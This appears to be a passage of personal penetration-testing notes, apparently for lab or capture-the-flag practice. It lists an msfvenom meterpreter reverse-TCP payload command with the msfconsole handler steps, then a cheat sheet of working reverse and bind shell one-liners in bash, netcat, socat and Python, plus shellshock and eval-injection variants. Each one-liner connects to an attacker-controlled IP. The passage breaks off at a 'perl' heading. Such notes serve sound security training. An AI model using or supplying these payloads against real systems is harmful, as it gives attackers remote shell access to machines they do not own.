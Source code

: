 ### Linux Multi stage
    - Linux 32bit multi stage reverse, output shellcode:
        > msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.119.135 LPORT=4444 -f py -v shellcode
    - In msfconsole
        > use multi/handler
        > set payload linux/x86/meterpreter/reverse_tcp
        > set LHOST
        > set LPORT
        > show options
        > exploit -j
        > jobs
        > jobs -i 0


# Reverse / Bind Shells (reverse shell)
------------------------
Linux Shell NOTE!!!!!!
    --- If RCE is not working, try /bin/sh instead of /bin/bash

- Bash:
    > bind > /bin/bash -i >& /dev/tcp/10.10.10.10/4443 0>&1
    > bind > /bin/bash -i >& /dev/tcp/192.168.49.91/80 0>&1
- netcat without -e flag
    > bind > rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.1.156 4445 >/tmp/f
    > bind > rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.28 9001 >/tmp/f
    > shell shock > rm%20/tmp/f;mkfifo%20/tmp/f;cat%20/tmp/f|/bin/sh%20-i%202>&1|nc%2010.10.14.18%20443%20>/tmp/f
- netcat linux (reverse shell)
    > listen > nc -nlvp 4443
    > bind > nc 10.10.10.10 4443 -e /bin/sh
- netcat linux (bind shell0
    > listen(victim) > nc -nlvp 4443 -e /bin/bash
    > bind > nc 10.10.10.10 4443 -e /bin/sh
- netcat windows (reverse shell)
    > listen > nc -nlvp 4443
    > bind > nc.exe 10.10.10.10 4443 -e cmd.exe
- netcat windows (bind shell)
    > listen (victim) > nc.exe -nlvp 4444 -e cmd.exe
    > bind > nc.exe -nv 10.10.10.10 4444

- socat Linux (reverse shell) NOTE! "-d -d" shows log output
    > listen (kali) > sudo socat -d -d TCP4-LISTEN:443 STDOUT
    > bind (linux) > sudo -u root /usr/bin/socat TCP4:10.9.202.21:443 EXEC:/bin/bash

- python
    > bind > os.system('bash -c "bash -i >& /dev/tcp/10.10.14.28/4446 0>&1"')
    > bind > os.system('socat TCP:192.168.49.153:80 EXEC:bash')
    > bind > python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",4443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
    - If creating actual file (like reverse.py) add this to the file and download with wget: 
        import socket,subprocess,os
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(("10.10.14.28",4445))
        os.dup2(s.fileno(),0)
        os.dup2(s.fileno(),1)
        os.dup2(s.fileno(),2)
        p=subprocess.call(["/bin/bash","-i"])
    > ping > python -c 'import os;host="192.168.49.104";pingme=os.system("ping -c 2 " + host);'
    > ping > python -c 'import os;os.system("ping -c 2 192.168.49.153");'
    > eval being used on text box > os.system('bash -c "bash -i >& /dev/tcp/192.168.49.165/5555 0>&1"')#
- perl